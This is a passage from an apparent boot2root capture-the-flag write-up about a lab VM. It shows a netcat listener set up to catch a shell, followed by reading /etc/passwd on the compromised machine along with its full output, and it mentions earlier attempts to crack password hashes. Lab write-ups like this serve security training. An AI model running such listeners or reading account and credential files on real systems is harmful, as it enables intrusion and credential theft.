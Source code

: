 BTW listener is already set like this

```sh
nc -l -vv -p 2000
```

![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/46.png)
https://www.youtube.com/watch?v=bXCeFPNWjsM

```sh
cat /etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
whoopsie:x:103:107::/nonexistent:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:110:118::/var/spool/postfix:/bin/false
```

I cannot access /etc/shadow, and even if I could, it likely wouldn't be helpful since I already 
tried cracking the hashes stored in the database.
